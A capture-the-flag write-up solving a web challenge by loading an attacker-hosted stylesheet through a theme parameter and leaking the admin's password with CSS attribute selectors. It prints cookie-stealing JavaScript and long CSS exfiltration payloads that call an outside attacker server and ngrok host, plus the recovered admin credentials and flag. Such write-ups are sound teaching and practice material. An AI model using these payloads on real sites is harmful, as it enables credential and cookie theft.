


# Fancy Login Form

## Description

> We created a [login form](https://fancy-login-form.ctf.zone) with different themes, hope you like it!

> Hint: The admin will only visit its OWN URL

## Solution

We arrive to a login page, but no registration function. I try default creds, SQLi etc.


There's a button to dynamically change the theme, which updates a CSS path but doesn't seem particularly interesting. There's also a "report" button. If we click it, a report is automatically sent.



Checking the HTTP history in burp suite, there is a POST request to `/report.php` with the following parameter:


```
url=https://fancy-login-form.ctf.zone/?theme=css/ocean
```


We can also see the JS code responsible for issuing the request.


```javascript
document.getElementById("report").addEventListener("click", (e) => {
    var url = window.location.href;
    var xhr = new XMLHttpRequest();
    xhr.open("POST", "/report.php", true);
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded; charset=UTF-8");
    xhr.send("url=" + url);
    document.getElementById("report-box").style.display = "none";
    document.getElementById("report-button").style.display = "block";
    document.getElementById("report").disabled = "true";
    document.getElementById("report-text").textContent = "Report sent! An admin will visit the URL shortly!";
});
```


### Open Redirect

At first, I think of XSS and replace the `url` with my own server URL (ngrok), but don't get a hit. I remember the hint "The admin will only visit its OWN URL" and realise we also have an open redirect. We can supply the `theme` parameter of the URL our own domain.


```
url=https://fancy-login-form.ctf.zone/?theme=https://ATTACKER_SERVER/css/ocean
```


We get a hit for the `/css/ocean.css` file (meaning we don't control the file extension), so we can create that file on our server. Let's set the contents to import another URL.


```css
body {
    background-image: url("https://4ad824cfde68.ngrok-free.app?flag=meow");
}
```




Unfortunately, I tried various payloads to execute JS here, e.g.


```css
body {
    background-image: url("https://4ad824cfde68.ngrok-free.app?flag=" + document.cookie);
}
```


These resulted in no request being made to the attacker server (not just a missing cookie). I also tried hosting an external JS file, e.g.


```javascript
var img = new Image();
img.src = "https://4ad824cfde68.ngrok-free.app?flag=" + document.cookie;
```


Which we import via the attacker-controlled CSS.


```css
@import url("https://ATTACKER_SERVER/payload.js");
```


It successfully imports, but we don't get the `?flag` request.


I tried a variety of payloads/formats here but each had the same issue, e.g.


```javascript
fetch("https://4ad824cfde68.ngrok-free.app?flag=" + document.cookie, {
    method: "GET",
    headers: {
        "Content-Type": "application/json",
    },
});
```


I tested this a little in my own browser and spotted the following error.


Still playing around in the browser devtools style editor, I try a different CSS payload.


```css
@font-face {
    font-family: "meow";
    src: url("https://ATTACKER_SERVER/payload.js");
}

body {
    font-family: "meow";
}
```



I investigated/tested some more techniques from these excellent resources:

-   [Exfiltration via CSS Injection (tripoloski)](https://tripoloski1337.github.io/webex/2024/07/24/exfil-using-only-css.html)
-   [x3CTF - blogdog + new CSS Injection XS-Leak! (j0r1an)](https://jorianwoltjer.com/blog/p/research/x3ctf-blogdog-new-css-injection-xs-leak)
-   [irisCTF2023 Writeup - Web sanitzer - CSS Injection (SloppyJoePirates)](https://www.youtube.com/watch?v=j1dY-poGPKs)
-   [CSS Injection: Attacking with Just CSS (aszx87410)](https://aszx87410.github.io/beyond-xss/en/ch3/css-injection/)

### Exfiltration via CSS Injection

When reading the blogs, I noticed a method to exfiltrate data from form fields using CSS. I reviewed the source code again and realised there was some JS updating a password attribute each time a key was pressed.


```javascript
const inp = document.getElementById("password");
inp.addEventListener("keyup", (e) => {
    inp.setAttribute("value", inp.value);
});
```


The fact they only do this for the password, not the username, made me suspicious 🔎 I updated the CSS in the devtools style editor.


```css
input[name="password"][value^="a"] {
    background-image: url(https://ATTACKER_SERVER/a);
}
```


When I typed "a" into the password field, I saw a request to the `/a` endpoint on my server.


So, we can host the following in our CSS file. It will check if the first character of the password field matches any character in the alphabet (or digits).


```css
input[name="password"][value^="a"] {
    background-image: url("https://ATTACKER_SERVER/a");
}
input[name="password"][value^="b"] {
    background-image: url("https://ATTACKER_SERVER/b");
}
input[name="password"][value^="c"] {
    background-image: url("https://ATTACKER_SERVER/c");
}
input[name="password"][value^="d"] {
    background-image: url("https://ATTACKER_SERVER/d");
}
input[name="password"][value^="e"] {
    background-image: url("https://ATTACKER_SERVER/e");
}
input[name="password"][value^="f"] {
    background-image: url("https://ATTACKER_SERVER/f");
}
input[name="password"][value^="g"] {
    background-image: url("https://ATTACKER_SERVER/g");
}
input[name="password"][value^="h"] {
    background-image: url("https://ATTACKER_SERVER/h");
}
input[name="password"][value^="i"] {
    background-image: url("https://ATTACKER_SERVER/i");
}
input[name="password"][value^="j"] {
    background-image: url("https://ATTACKER_SERVER/j");
}
input[name="password"][value^="k"] {
    background-image: url("https://ATTACKER_SERVER/k");
}
input[name="password"][value^="l"] {
    background-image: url("https://ATTACKER_SERVER/l");
}
input[name="password"][value^="m"] {
    background-image: url("https://ATTACKER_SERVER/m");
}
input[name="password"][value^="n"] {
    background-image: url("https://ATTACKER_SERVER/n");
}
input[name="password"][value^="o"] {
    background-image: url("https://ATTACKER_SERVER/o");
}
input[name="password"][value^="p"] {
    background-image: url("https://ATTACKER_SERVER/p");
}
input[name="password"][value^="q"] {
    background-image: url("https://ATTACKER_SERVER/q");
}
input[name="password"][value^="r"] {
    background-image: url("https://ATTACKER_SERVER/r");
}
input[name="password"][value^="s"] {
    background-image: url("https://ATTACKER_SERVER/s");
}
input[name="password"][value^="t"] {
    background-image: url("https://ATTACKER_SERVER/t");
}
input[name="password"][value^="u"] {
    background-image: url("https://ATTACKER_SERVER/u");
}
input[name="password"][value^="v"] {
    background-image: url("https://ATTACKER_SERVER/v");
}
input[name="password"][value^="w"] {
    background-image: url("https://ATTACKER_SERVER/w");
}
input[name="password"][value^="x"] {
    background-image: url("https://ATTACKER_SERVER/x");
}
input[name="password"][value^="y"] {
    background-image: url("https://ATTACKER_SERVER/y");
}
input[name="password"][value^="z"] {
    background-image: url("https://ATTACKER_SERVER/z");
}
input[name="password"][value^="A"] {
    background-image: url("https://ATTACKER_SERVER/A");
}
input[name="password"][value^="B"] {
    background-image: url("https://ATTACKER_SERVER/B");
}
input[name="password"][value^="C"] {
    background-image: url("https://ATTACKER_SERVER/C");
}
input[name="password"][value^="D"] {
    background-image: url("https://ATTACKER_SERVER/D");
}
input[name="password"][value^="E"] {
    background-image: url("https://ATTACKER_SERVER/E");
}
input[name="password"][value^="F"] {
    background-image: url("https://ATTACKER_SERVER/F");
}
input[name="password"][value^="G"] {
    background-image: url("https://ATTACKER_SERVER/G");
}
input[name="password"][value^="H"] {
    background-image: url("https://ATTACKER_SERVER/H");
}
input[name="password"][value^="I"] {
    background-image: url("https://ATTACKER_SERVER/I");
}
input[name="password"][value^="J"] {
    background-image: url("https://ATTACKER_SERVER/J");
}
input[name="password"][value^="K"] {
    background-image: url("https://ATTACKER_SERVER/K");
}
input[name="password"][value^="L"] {
    background-image: url("https://ATTACKER_SERVER/L");
}
input[name="password"][value^="M"] {
    background-image: url("https://ATTACKER_SERVER/M");
}
input[name="password"][value^="N"] {
    background-image: url("https://ATTACKER_SERVER/N");
}
input[name="password"][value^="O"] {
    background-image: url("https://ATTACKER_SERVER/O");
}
input[name="password"][value^="P"] {
    background-image: url("https://ATTACKER_SERVER/P");
}
input[name="password"][value^="Q"] {
    background-image: url("https://ATTACKER_SERVER/Q");
}
input[name="password"][value^="R"] {
    background-image: url("https://ATTACKER_SERVER/R");
}
input[name="password"][value^="S"] {
    background-image: url("https://ATTACKER_SERVER/S");
}
input[name="password"][value^="T"] {
    background-image: url("https://ATTACKER_SERVER/T");
}
input[name="password"][value^="U"] {
    background-image: url("https://ATTACKER_SERVER/U");
}
input[name="password"][value^="V"] {
    background-image: url("https://ATTACKER_SERVER/V");
}
input[name="password"][value^="W"] {
    background-image: url("https://ATTACKER_SERVER/W");
}
input[name="password"][value^="X"] {
    background-image: url("https://ATTACKER_SERVER/X");
}
input[name="password"][value^="Y"] {
    background-image: url("https://ATTACKER_SERVER/Y");
}
input[name="password"][value^="Z"] {
    background-image: url("https://ATTACKER_SERVER/Z");
}
input[name="password"][value^="0"] {
    background-image: url("https://ATTACKER_SERVER/0");
}
input[name="password"][value^="1"] {
    background-image: url("https://ATTACKER_SERVER/1");
}
input[name="password"][value^="2"] {
    background-image: url("https://ATTACKER_SERVER/2");
}
input[name="password"][value^="3"] {
    background-image: url("https://ATTACKER_SERVER/3");
}
input[name="password"][value^="4"] {
    background-image: url("https://ATTACKER_SERVER/4");
}
input[name="password"][value^="5"] {
    background-image: url("https://ATTACKER_SERVER/5");
}
input[name="password"][value^="6"] {
    background-image: url("https://ATTACKER_SERVER/6");
}
input[name="password"][value^="7"] {
    background-image: url("https://ATTACKER_SERVER/7");
}
input[name="password"][value^="8"] {
    background-image: url("https://ATTACKER_SERVER/8");
}
input[name="password"][value^="9"] {
    background-image: url("https://ATTACKER_SERVER/9");
}
```


Then send the admin our CSS URL.


```
https://fancy-login-form.ctf.zone/?theme=https://ATTACKER_SERVER/css/ocean
```


In our HTTP log, we'll get the first character of the password ("F")!


```bash
HTTP Requests
-------------
21:06:37.376 BST GET /F                         404 File not found
21:06:36.748 BST GET /css/ocean.css             200 OK
```


We just need to repeat this for each character. You could automate this into a nice script but I went for the manual approach (was super slow, don't recommend lol); use find/replace and replace `value^=` with `value^=F`. Repeat this until we get it all.

Note: I realised that the password has special chars, so after finding `F0x13foXtrOT`, I added some more elements to the CSS.


```css
input[name=password][value^=F0x13foXtrOT\!] { background-image: url('https://ATTACKER_SERVER/!'); }
input[name=password][value^=F0x13foXtrOT\@] { background-image: url('https://ATTACKER_SERVER/@'); }
input[name=password][value^=F0x13foXtrOT\#] { background-image: url('https://ATTACKER_SERVER/#'); }
input[name=password][value^=F0x13foXtrOT\$] { background-image: url('https://ATTACKER_SERVER/$'); }
input[name=password][value^=F0x13foXtrOT\%] { background-image: url('https://ATTACKER_SERVER/%'); }
input[name=password][value^=F0x13foXtrOT\^] { background-image: url('https://ATTACKER_SERVER/^'); }
input[name=password][value^=F0x13foXtrOT\&] { background-image: url('https://ATTACKER_SERVER/&'); }
input[name=password][value^=F0x13foXtrOT\*] { background-image: url('https://ATTACKER_SERVER/*'); }
input[name=password][value^=F0x13foXtrOT\(] { background-image: url('https://ATTACKER_SERVER/('); }
input[name=password][value^=F0x13foXtrOT\)] { background-image: url('https://ATTACKER_SERVER/)'); }
input[name=password][value^=F0x13foXtrOT\_] { background-image: url('https://ATTACKER_SERVER/_'); }
input[name=password][value^=F0x13foXtrOT\-] { background-image: url('https://ATTACKER_SERVER/-'); }
input[name=password][value^=F0x13foXtrOT\+] { background-image: url('https://ATTACKER_SERVER/+'); }
input[name=password][value^=F0x13foXtrOT\~] { background-image: url('https://ATTACKER_SERVER/~'); }
input[name=password][value^=F0x13foXtrOT\[ ] { background-image: url('https://ATTACKER_SERVER/['); }
input[name=password][value^=F0x13foXtrOT\\] { background-image: url('https://ATTACKER_SERVER/]'); }
input[name=password][value^=F0x13foXtrOT\|] { background-image: url('https://ATTACKER_SERVER/|'); }
input[name=password][value^=F0x13foXtrOT\;] { background-image: url('https://ATTACKER_SERVER/;'); }
input[name=password][value^=F0x13foXtrOT\:'"] { background-image: url('https://ATTACKER_SERVER/:\'"'); }
input[name=password][value^=F0x13foXtrOT\,] { background-image: url('https://ATTACKER_SERVER/,'); }
input[name=password][value^=F0x13foXtrOT\.] { background-image: url('https://ATTACKER_SERVER/.'); }
input[name=password][value^=F0x13foXtrOT\/] { background-image: url('https://ATTACKER_SERVER//'); }
```


The full password is `F0x13foXtrOT&Elas7icBe4n5`, we can login with:


```
admin:F0x13foXtrOT&Elas7icBe4n5
```



```
Welcome admin! You earned yourself a flag: flag{6b1f095e79699a79dc4a366c1131313e}
```


Flag: `flag{6b1f095e79699a79dc4a366c1131313e}`
